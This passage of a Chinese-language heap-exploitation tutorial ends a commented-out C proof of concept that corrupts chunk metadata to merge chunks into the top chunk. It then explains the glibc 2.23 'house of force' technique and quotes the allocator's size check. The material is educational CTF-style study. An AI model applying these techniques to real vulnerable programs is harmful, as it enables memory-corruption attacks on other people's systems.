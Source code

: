 ```c

    // // 接下来，我们申请3个大小为0x100的chunk
    // malloc(0xf0);
    // malloc(0xf0);
    // malloc(0xf0);

    // // 我们再申请最后一个大小为0x100的chunk，那么这个chunk b将会紧邻top chunk
    // long *b = malloc(0xf0);

    // // 攻击
    // b[-2] += 0x400; // 将chunk b的prev_size增大0x400
    // b[-1] = 0x100;  // 修改chunk b 的prev_inuse为0
    // a[-1] = 0x401;  // 修改chunk a的size为0x400
    // a[0] = a - 2;
    // a[1] = a - 2;
    // a[2] = a - 2;
    // a[3] = a - 2;

    // free(b); // 释放 chunk b，这样一来chunk a成为top chunk
    // long *c = malloc(0x100);
    // printf("the addr of chunk c is %p.\n", c - 2);
    return 0;
}
```

# house of force

一句话描述该漏洞，在`glibc 2.23`下，通过控制`top chunk`的`size`域为一个特别大的值，导致可以通过`malloc`特别大的值或者负数来将`top chunk`的指针指向任意位置。

你需要进行控制的：

- `top chunk`的`size`域
- 你需要可以`malloc`一个特别大的值
- 你需要可以多次`malloc`

**原理：**

在`glibc 2.23`中，对于`top chunk`的检查仅仅只有`(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)`。

那么，若我们将`top chunk`的`size`修改为一个特别大的值，甚至是`-1`（由于是无符号数在进行判断，那么`-1`是最大的数），那么便可以申请任意大小的`chunk`。源码如下：

```c
// 获取当前的top chunk，并计算其对应的大小
victim = av->top;
size   = chunksize(victim);
// 如果在分割之后，其大小仍然满足 chunk 的最小大小，那么就可以直接进行分割。
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
{
    remainder_size = size - nb;
    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head(remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```

